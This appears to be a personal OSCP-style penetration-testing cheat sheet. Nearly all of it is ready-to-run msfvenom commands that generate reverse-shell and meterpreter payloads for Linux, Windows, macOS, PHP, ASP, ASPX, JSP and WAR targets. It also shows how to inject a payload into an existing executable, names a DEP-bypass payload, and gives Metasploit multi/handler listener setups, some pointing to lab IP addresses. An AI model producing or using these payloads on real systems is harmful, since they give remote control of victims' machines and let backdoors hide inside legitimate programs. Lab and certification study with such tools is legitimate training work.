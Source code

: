 https://github.com/tagnullde/OSCP/blob/master/oscp-cheatsheet.md
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

# msfvenom
- serivce: all
- tactics: weaponization

## Linux ELF binary
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

## Windows EXE binary 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

MS17-010
msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.10.14.124 LPORT=4445

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.239.155 LPORT=4444 -f aspx -o pwn.aspx
### 32 Bit
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=10.10.12.XX lport=1337 -f exe > shell32.exe

### 64Bit
msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp lhost=10.10.12.XX lport=1337 -f exe > shell64.exe
    
## Windows Service
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> EXITFUNC=thread -f exe-service > shell-service.exe
    
## Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
    
## PHP 
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > /tmp/shell.php && sed -i 's/#<?php/<?php/' /tmp/shell.php
 msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f raw -o shell.php
> If you use php/reverse_php open the output file with an editor and add `<?php` and `?>` within the script.
use exploit/multi/handler 
set LHOST <$LOCAL_IP>
set LPORT <$LOCAL_PORT>
set PAYLOAD php/meterpreter/reverse_tcp 
exploit
    
## ASP 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp 

## JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
    
## WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
    
## Inject payload into an existing exe file
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -x <template EXE> -f exe > <output.exe>

## dep bypass payload
windows/meterpreter/reverse_nonx_tcp

## multi handler
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set AutoRunScript post/windows/manage/migrate
set lhost 10.10.12.102
set lport 9001
exploit
```
--- 
